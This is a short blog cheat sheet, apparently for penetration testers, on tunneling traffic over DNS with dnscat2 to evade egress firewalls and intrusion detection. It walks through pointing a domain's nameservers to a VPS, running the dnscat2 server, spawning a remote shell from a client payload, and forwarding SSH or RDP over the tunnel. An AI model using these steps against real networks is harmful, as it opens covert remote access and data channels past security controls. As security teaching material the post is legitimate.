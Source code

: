 ```yaml
---
layout: blog_item
title: "DNS Tunneling dnscat2 Cheat Sheet"
date:   2024-06-24 10:29:10
author: Dhruv Ambaliya
description: 'Learn what DNS tunneling is, when to use it on a pen test and how to tunnel over DNS using dnscat2.'
categories: [cheat-sheet]
tags:
- 'Pen-Testing'
- 'Infrastructure'
- cheat-sheet
---
```


* list element with functor item
{:toc}

## What is DNS Tunneling 

DNS tunneling is used to evade egress firewall rules and/or IDS / proxy or other web filtering applicances by tunneling data over DNS. DNS tunneling usually works as external DNS resolution is available on most networks, it should be noted that DNS tunneling is slow due to the low amounts of data that can be transfered. 
<!--more-->

**What You Will Learn:**

- What is DNS tunneling 
- How to setup dnscat2
- How to tunnel data over dnscat2 

## You Will Need

1. A real world domain, <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> works well and has free WHOIS privacy.
2. A VPS to run DNSCAT2 - <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode is cheap and works for this and this link will give you a $100 voucher</a> (see instructions below) 

In order to tunnel data over DNS a real world domain must be used and the domains authoritivate name servers must be set to servers in your control. 


## Buying a Domain 

<a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a>  offers free domain WHOIS privacy, a lot of extensions and is well priced. 

### How to Change Name Servers On NameSilo 

Login to <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> and follow these instructions to change the authoritative name servers: 

1.  Go to the Domain Manager page within your account
2.  Click the applicable domain name (it will be underlined in black)
3.  Click the "View/Manage Registered NameServers" link within the "NameServers" box

## DNS Forwarding with Dnscat2  

1. Install dsncat2 ```apt-get install dnscat2 -y```
2. Run:  ```dnscat2-server yourdomain.com``` on your VPS
3. From the client machine you will need to run the dnscat2 payload 
4. If your domain's NS are configured correctly the session should be established 
5. Enter ```session -i``` to spawn an interactive session 
6.  Launch a shell using ```shell```

## Dnscat2 Port Forwarding 

Dnscat2 supports TCP forwarding allowing you to tunnel SSH or RDP connections over the established DNS tunnel. 

{% highlight bash %} 
command (client) 4> listen 127.0.0.1:22 target:22 
{% endhighlight %}

Again this will slow but functional. 

Enjoy.	
